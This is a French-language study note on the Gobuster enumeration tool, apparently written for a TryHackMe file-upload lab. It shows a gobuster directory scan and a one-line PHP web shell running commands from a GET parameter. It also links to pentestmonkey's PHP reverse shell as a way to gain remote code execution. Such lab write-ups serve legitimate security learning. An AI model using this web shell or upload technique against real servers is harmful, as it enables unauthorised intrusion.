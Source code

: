 
# Gobuster

## Utilisation sur THM

**Gobuster** est un outil utilisé principalement pour effectuer des attaques de **dictionnaire** sur des serveurs web. Il sert à **découvrir des répertoires, des fichiers, ou des sous-domaines** cachés sur un site web. Gobuster fonctionne en envoyant des requêtes HTTP avec des chemins (URLs) issus d'un fichier de dictionnaire, afin de déterminer s'il existe des ressources accessibles mais non visibles immédiatement.

### Exemple d'utilisation:

Mise en contexte du challenge:

- un site web fournit par THM
- utilisation de gobuster pour effectuer un scan
- le but: upload des fichier (en php) afin qu'ils soient interpréter par le serveur et permettre un RCE

Le site:

![[Pasted image 20250312110409.png]]

Lancement d'un scan Gobuster:


```
gobuster dir -u http://shell.uploadvulns.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Cette commande va permettre d'énumérer des répertoires précis d'un site web à l'aide d'une liste.

![[../../images/Challenge gobuster 1.png]]

Ce qui va être utile ici est /ressources

Avant de voir ce chemin, il faut tenter d'upload un fichier:

![[../../images/Challenge gobuster 3.png]]

Upload d'un webshell, contenu:

```
<?php       
echo system($_GET["cmd"]);   
?>
```

Permet d'exécuter les commandes par GET:

Il est également possible d'utiliser un reverse shell:

J'ai utilisé celui de pentestMonkey:

https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

Le principe est le même, il faut upload son script sur le serveur et l'exécuter. 

![[../../images/Challenge gobuster 3.png]]


![[../../images/Challenge gobuster 4.png]]

![[../../images/Challenge gobuster 5.png]]
On trouve le flag comme indiqué dans /var/www/

![[../../images/Challenge gobuster 2.png]]
